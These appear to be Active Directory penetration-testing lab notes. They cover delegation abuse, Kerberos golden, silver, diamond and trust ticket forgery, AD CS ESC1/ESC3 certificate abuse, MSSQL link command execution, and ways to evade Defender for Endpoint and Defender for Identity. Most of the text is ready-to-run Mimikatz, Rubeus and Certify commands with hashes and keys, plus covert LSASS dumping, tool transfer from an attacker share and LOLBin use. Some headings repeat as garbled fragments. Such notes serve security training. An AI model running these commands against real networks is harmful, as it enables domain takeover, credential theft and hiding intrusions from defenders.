C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
🔐 Resource-based Constrained Delegation
This moves delegation authority to the resource/service administrator. Instead of SPNs onmsDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor of msDS-AllowedToActOnBehalfOfOtherIdentity (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service.
ℹ️ That is, the resource/service administrator can configure this delegation whereas for other types, SeEnableDelegation privileges are required which are, by default, available only to Domain Admins.
To abuse RBCD in the most effective form, we just need two privileges:1. Write permissions over the target service or object to configure msDS-AllowedToActOnBehalfOfOtherIdentity.
2. Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DS-MachineAccountQuota is 10 for all domain users) #### 🔪 Commands
- We already have admin privileges on student VMs that are domain joined machines.
1) Enumeration would show that the user 'ciadmin' has Write permissions over the dcorp-mgmt machine!
2) Using the ActiveDirectory module, configure RBCD on dcorp-mgmt for student machines :Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
$comps = 'dcorp-student1$','dcorp-student2$' Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
3) Now, let's get the privileges of dcorp-studentx$ by extracting its AES keys:
4) Use the AES key of dcorp-studentx$ with Rubeus and access dcorp-mgmt as ANY user we want:Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt winrs -r:dcorp-mgmt cmd.exe
⚔️ Across Trusts
- Across Domains - Implicit two way trust relationship.
- Across Forests - Trust relationship needs to be established
 sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory.
sIDHistory can be abused in two ways of escalating privileges within a forest:
sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory.
sIDHistory can be abused in two ways of escalating privileges within a forest:1) krbtgt hash of the child
2) Trust ticket

🎟️ Trust ticket
This "Trust Ticket Attack" is similar to a Silver Ticket attack as both involve forging Kerberos tickets- Silver Ticket: forging TGS for service in the same domain
- Trust Ticket: forging TGS for service across a domain trust
 #### 🔪 Commands
Child to Parent using Trust Tickets
1) So, what is required to forge trust tickets is, obviously, the trust key. Look for [In] trust key from child to parent on the DC.
#### 🔪 Commands
Child to Parent using Trust Tickets
1) So, what is required to forge trust tickets is, obviously, the trust key. Look for [In] trust key from child to parent on the DC.SafetyKatz.exe "lsadump::trust /patch"
OR
SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$"
OR
SafetyKatz.exe "lsadump::lsa /patch"
C:\AD\Tools\Rubeus.exe silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:17e8f4d3f4b46e95048a66a5dd890ee3 /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
3) Use the forged ticket
C:\AD\Tools\Rubeus.exe asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:<FORGED TICKET>
| Option | Description |
|---|---|
silver |
Name of the module |
/rc4:17e8f4d3f4b46e95048a66a5dd890ee3 |
NTLM hash of the trust key |
/sid:S-1-5-21-719815819-3726368948-3917688648 |
SID of the current domain |
/sids:S-1-5-21-335606122-960912869-3279953914-519 |
SID of the enterprise admins group of the parent domain |
/ldap |
Retrieve PAC information from the current domain DC |
/user:Administrator |
Username for which the TGT is generated |
/nowrap |
No newlines in the output |
🔑 krbtgt hash of the child
This krbtgt Secret Abuse is similar to a Golden Ticket attack as both involve forging Kerberos tickets- Golden Ticket: forging TGT using krbtgt key for full control in a domain
- krbtgt Secret Abuse: forging TGT using krbtgt key to gain cross-domain access via trust ℹ️ Note that it can be used as Diamond ticket attack as will
 #### 🔪 Commands
Child to Parent using krbtgt hash
This is easier!
#### 🔪 Commands
Child to Parent using krbtgt hash
This is easier!- We need to simply forge a Golden ticket (not an inter-realm TGT) with sIDHistory of the Enterprise Admins group. 1) Due to the trust, the parent domain will trust the TGT.
SafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
SafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
-
S-1-5-21-2578538781-2508153159-3419410681-516 - Domain Controllers-
S-1-5-9 - Enterprise Domain Controllers
- Avoid suspicious logs and bypass MDI by using Domain Controller identity (using Rubeus)
Rubeus.exe golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /dc:DCORP-DC.dollarcorp.moneycorp.local /ptt
SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
👾 Across External Trusts
Similar to a Silver Ticket and Trust Ticket Attacks, but Across Forest #### 🔪 Commands
Across Forest using Trust Tickets
1) We require the trust key for the inter-forest trust from the DC that has the external trust:
#### 🔪 Commands
Across Forest using Trust Tickets
1) We require the trust key for the inter-forest trust from the DC that has the external trust:SafetyKatz.exe -Command '"lsadump::trust /patch"'
OR
SafetyKatz.exe -Command '"lsadump::lsa /patch"'
C:\AD\Tools\Rubeus.exe silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:17e8f4d3f4b46e95048a66a5dd890ee3 /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
3) Use the forged ticket
C:\AD\Tools\Rubeus.exe asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:<FORGED TICKET>
🏛️ Across domain trusts
📃 Active Directory Certificate Services (AD CS)
Active Directory Certificate Services (AD CS) enables use of Public Key Infrastructure (PKI) in active directory forest. AD CS helps in authenticating users and machines, encrypting and signing documents, filesystem, emails and more. AD CS is the Server Role that allows you to build a public key infrastructure (PKI) and provide public key cryptography, digital certificates, and digital signature capabilities for your organization.- CA - The certification authority that issues certificates. The server with AD CS role (DC or separate) is the CA.
- Certificate - Issued to a user or machine and can be used for authentication, encryption, signing etc.
- CSR - Certificate Signing Request made by a client to the CA to request a certificate.
- Certificate Template - Defines settings for a certificate. Contains information like - enrolment permissions, EKUs, expiry etc.
- EKU OIDs - Extended Key Usages Object Identifiers. These dictate the use of a certificate template (Client authentication, Smart Card Logon, SubCA etc.)

- There are various ways of abusing ADCS!
- Extract user and machine certificates
- Use certificates to retrieve NTLM hash
- User and machine level persistence
- Escalation to Domain Admin and Enterprise Admin
- Domain persistence
Stealing Certificates THEFT1 Export certs with private keys using Windows' crypto APIs THEFT2 Extracting user certs with private keys using DPAPI THEFT3 Extracting machine certs with private keys using DPAPI THEFT4 Steal certificates from files and stores THEFT5 Use Kerberos PKINIT to get NTLM hash Persistence PERSIST1 User persistence by requesting new certs PERSIST2 Machine persistence by requesting new certs PERSIST3 User/Machine persistence by renewing certs ESC1 ESC2 ESC3 ESC4 ESC5 ESC6 (Patched - May’22) ESC7 ESC8 Enrolee can request cert for ANY user Any purpose or no EKU (potentially dangerous) Request an enrollment agent certificate and use it to request cert on behalf of ANY user Overly permissive ACLs on templates Poor access control on CA server, CA server computer object etc. EDITF_ATTRIBUTESUBJECTALTNAME2 setting on CA - Request certs for ANY user Poor access control on roles like “CA Administrator” and “Certificate Manager” NTLM relay to HTTP enrollment endpoints ESC9 ESC10 ESC11 ESC12 ESC13 ESC14 (To be patched) ESC15 (Patched Nov’24) No Security Extension (Enrolee can modify own UPN to request cert on behalf of ANY user) Implicit Weak Certificate Mapping (modify own UPN) NTLM relay to RPC enrolment endpoints Steal CA private key from YubiHSM Enrolee gets privileges of the linked Group Auth as the target using certificate in altSecurityIdentities attribute EKUwu – Abuse of default v1 templates to 'override' EKUs Domain Persistence DPERSIST1 Forge certificates with stolen CA private keys DPERSIST2 Malicious root/intermediate CAs DPERSIST3 Backdoor CA Server, CA server computer object etc. 🔪 Commands
We can use the Certify tool GitHub - Certify to enumerate (and for other attacks) AD CS in the target forest: 1) Enumerate Certificate Authorities (CAs):
Certify.exe cas
2) Enumerate the templates:
Certify.exe find
3) Enumerate vulnerable templates:
Certify.exe find /vulnerable
🧨 AD CS – ESC3 & ESC1
Common requirements/misconfigurations for all the Escalations that we have in the lab (ESC1 and ESC3)- CA grants normal/low-privileged users enrollment rights
- Manager approval is disabled
- Authorization signatures are not required
- The target template grants normal/low-privileged users enrollment rights #### 🔪 Commands 1) The template
SmartCardEnrollment-Agent allows Domain users to enroll and has "Certificate Request Agent" EKU.Certify.exe find /vulnerable
ℹ️ The template `SmartCardEnrollment-Users` has an Application Policy Issuance Requirement of Certificate Request Agent and has an EKU that allows for domain authentication.
SmartCardEnrollmentAgent template.Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Agent
SmartCardEnrollment-Users template.Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
3) Convert from cert.pem to pfx (esc3user-DA.pfx below), request DA TGT and inject it:
Rubeus.exe asktgt /user:administrator /certificate:esc3user-DA.pfx /password:SecretPass@123 /ptt
SmartCardEnrollment-Users template.Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
2) Request EA TGT and inject it:
Rubeus.exe asktgt /user:moneycorp.local\administrator /certificate:esc3user.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt
HTTPSCertificates has ENROLLEESUPPLIESSUBJECT value for msPKI-Certificates-Name-Flag.Certify.exe find /enrolleeSuppliesSubject
2) The template
HTTPSCertificates allows enrollment to the RDPUsers group. Request a certificate for DA (or EA) as studentxCertify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
3) Convert from cert.pem to pfx (esc1.pfx below) and use it to request a TGT for DA (or EA)
Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:SecretPass@123 /ptt
🫙 MSSQL Servers
SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles. For MSSQL and PowerShell hackery, lets use GitHub - PowerUpSQL #### 🔪 Commands- Discovery (SPN Scanning)
Get-SQLInstanceDomain - Check Accessibility
Get-SQLConnectionTestThreaded Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose - Gather Information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose🔗 Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures. ℹ️ Database links work even across forest trusts. Searching Database Links 1) Look for links to remote servers
Get-SQLServerLink -Instance dcorp-mssql -Verbose
OR
Enumerating Database Links - Manually 2)select * from master..sysservers
Openquery()function can be used to run queries on a linked database
select * from openquery("dcorp-sql1",'select * from master..sysservers')
3) Enumerating Database Links
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
OROpenqueryqueries can be chained to access links within links (nested links)
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
- On the target server, either
xp_cmdshellshould be already enabled; or Ifrpcoutis enabled (disabled by default),xp_cmdshellcan be enabled using:
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql" - Use the
-QuertyTargetparameter to run Query on a specific instance (without-QueryTargetthe command tries to usexp_cmdshellon every link of the chain)
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql - From the initial SQL server, OS commands can be executed using nested link queries:
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
🏹 Bypassing Defenses (MDE and MDI)
Endpoint Detection and Response (EDRs) system protects individual devices (endpoints) by continuously monitoring for and responding to security threats. ℹ️ It includes features for threat detection, incident response, investigation, and forensics, making it a vital component of modern cybersecurity strategies. ℹ️ MDE is an EDR and MDI is an identity threat detection and response (ITDR) solution In addition to standard EDR capabilities, MDE collects and processes behavioral signals from the OS and analyzes this using cloud security analytics. MDE also supports detections based on the following technologies:- Attack Surface Reduction rules
- Exploit protection
- Network protection
- Controlled Folder Access
- Device control Our objective is to remain undetected by AV and EDR on eu-sql to perform:
- SQL command execution through SQL Server links
- Tool transfer
- Credential extraction
- Data exfiltration
- Lateral movement / remote access
🖥️ Credential Extraction
### 🧪 Credential Extraction – LSASS Dump ⚠️ Direct LSASS Interaction Detection by MDE:- Tools like Mimikatz using
sekurlsa::logonpasswords are easily detected by Microsoft Defender for Endpoint (MDE).- Standard dump techniques (e.g., via Task Manager → "Create Dump File") are monitored and blocked.
🔐 Common Dumping Technique (Detected by EDR):
1. Gain a handle to the LSASS process.
2. Call
MiniDumpWriteDump() from dbghelp.dll or dbgcore.dll.3. Write the dump file to disk.
🛑 These steps are heavily monitored by EDRs like MDE and often result in detection.
🕵️♂️ OPSEC-Friendly Alternative:
- Dump LSASS memory covertly, exfiltrate, then analyze offline.
- Avoid tools that call
MiniDumpWriteDump() directly.
### 🔧 Custom API Approach – MiniDumpDotNet
- MiniDumpDotNet is a custom LSASS dumping tool:
- Reimplements
MiniDumpWriteDumpusing BOF + ReactOS code. - Avoids standard API calls to evade detection.
- Reimplements
- Written in .NET CLR, supports:
- Standalone execution
assembly.load()- PowerShell / JScript / VBS injection
- Can dump other processes too (e.g., Outlook with cleartext creds)
**📥 Usage Example:**
.\minidumpdotnet.exe <LSASS_PID> <minidump_file>
### ⚙️ MiniDumpDotNet Setup
git clone https://github.com/WhiteOakSecurity/MiniDumpDotNet.git
- Built using Visual Studio 2015 (or any VS version that supports C++ CLR)
- Generates:
- Executable binary
- .NET class library
- Build via
Build → Build Solutioninside Visual Studio
### 🧪 AV Signature Testing – DefenderCheck
C:\AD\Tools\DefenderCheck> .\DefenderCheck.exe .\minidumpdotnet.exe
# [+] No threat found in submitted file!
✅ MDE does not detect minidumpdotnet.exe (at the time of test).
### 🔎 Finding LSASS PID – OPSEC Safe Techniques
tasklist /vand similar commands are monitored by MDE- Use WinAPI instead (more stealthy)
- If using RDP: Task Manager or UI alternatives are safer
### 💻 Example: C++ Code to Find LSASS PID
int FindPID(const char* procname) {
int pid = 0;
PROCESSENTRY32 proc = {};
proc.dwSize = sizeof(PROCESSENTRY32);
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
bool bProc = Process32First(snapshot, &proc);
while (bProc) {
if (strcmp(procname, proc.szExeFile) == 0) {
pid = proc.th32ProcessID;
break;
}
bProc = Process32Next(snapshot, &proc);
}
return pid;
}
⚠️ Adding this toMiniDumpDotNet= 🔔 Detected by MDE
✅ Running in standalone EXE = 🟢 No detection
C:\AD\Tools\DefenderCheck> .\DefenderCheck.exe FindLSASSPID.exe # [+] No threat found in submitted file!
### 📦 Tool Transfer & Execution (OPSEC Tips)
- HTTP(S) downloads = 🚨 High detection risk
- Use legit binaries (e.g.
msedge.exe) to download = lower risk - Best practice:
- Share tools via SMB
- Execute directly from shared path (
\\attacker\tools\minidump.exe)
### 🧩 Breaking Detection Chains
- EDRs correlate suspicious actions over short time windows
- To avoid detection:
- ⏳ Wait ~10 min between sensitive steps
- 🧊 Mix benign actions (e.g., legit SQL queries) between suspicious ones
🥈 AD CS – ESC1
#### 🔪 Commands🥈 AD CS – ESC1
#### 🔪 Commands🥈 AD CS – ESC1
#### 🔪 Commands🔎 Monitoring and Detections
🥈 AD CS – ESC1
#### 🔪 Commands🥈 AD CS – ESC1
#### 🔪 Commands🥈 AD CS – ESC1
#### 🔪 Commands🥈 AD CS – ESC1
#### 🔪 Commands🥈 AD CS – ESC1
#### 🔪 Commands🧬 Living off the Land (LOTL)
🧠 What Is LOTL?
Living off the Land (LOTL) refers to attackers abusing legitimate, built-in system tools (often called LOLBins, short for Living Off the Land Binaries) to perform malicious actions without using traditional malware. These techniques allow attackers to:- Blend into normal admin activity
- Bypass antivirus and EDR
- Stay fileless and reduce their forensic footprint
🧰 Common LOLBins in Windows
| Binary | Purpose / Abuse |
|---|---|
powershell.exe |
Script execution, memory injection, download payloads |
cmd.exe |
Basic shell access and command execution |
wmic.exe |
System info, user queries, process execution |
rundll32.exe |
Run DLLs or hidden payloads |
mshta.exe |
Run HTA (HTML Applications), supports remote execution |
regsvr32.exe |
Execute scripts from COM scriptlets (.sct files) |
certutil.exe |
Downloading files, base64 encoding/decoding |
bitsadmin.exe |
Download payloads using Background Intelligent Transfer Service (deprecated) |
curl.exe / Invoke-WebRequest |
Network comms and file downloads |
taskschd.msc / schtasks.exe |
Establish persistence with scheduled tasks |
🔥 Example: LOTL for Enumeration
wmic process get name,executablepath,processid /format:list > %temp%\sys_log.txt & attrib +h %temp%\sys_log.txt